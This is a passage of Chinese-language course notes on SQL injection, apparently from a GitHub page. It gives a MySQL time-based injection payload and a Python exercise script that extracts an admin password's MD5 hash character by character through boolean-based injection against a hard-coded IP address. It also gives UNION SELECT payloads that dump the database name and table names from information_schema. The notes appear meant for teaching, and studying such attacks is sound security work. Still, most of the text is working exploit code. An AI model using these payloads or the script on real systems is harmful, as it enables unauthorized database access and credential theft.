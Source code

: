    - MySQL：

   ```mysql
   BENCHMARK(100000, MD5(1)) or sleep(5)
   ```

- 课后习题Python爆破代码：

```python
import requests
from random import sample

md5str = '0123456789abcdefghijklmnopqrstuvwxyz}'
# 最后一个字符表示一个比z大的ascii码字符

url = 'http://202.112.51.184:8001/'
payload = {'username': 'admin', 'password':'test'} # 声明payload为一个字典

crackres = ['unsolve']*33
crackres[32] = 'end' # 标志crack结果list的末尾
crackpos = 0 # 从0开始爆破

session = requests.Session()
defaultlen = len(session.post(url, data=payload).content)

while crackres[crackpos] != 'end':
    for index in range(len(md5str)):
        thispassword = ''.join(crackres[0:crackpos]) + md5str[index+1]
        payload['username'] = "admin' and password > '" + thispassword + "'#"
        response = session.post(url, data=payload)
        if len(response.content) != defaultlen:
            crackres[crackpos] = md5str[index]
            break
    crackpos = crackpos + 1

print('Password md5: ',''.join(crackres[0:32]))
```

### SQL注入的利用代码

1. 猜测MySQL的表名和字段名：MySQL的Information_schema数据库存储了整个数据库的结构信息，存放在Information_schema.tables、Information_schema.columns表中。

   - 爆数据库 payload：

   ```mysql
   union select 1,2,database()%23
   ```

   - 爆表名 payload：

   ```mysql
   union select 1, table_name, 3 from information_schema.tables where table_schema='test' limit 0,1%23
   ```
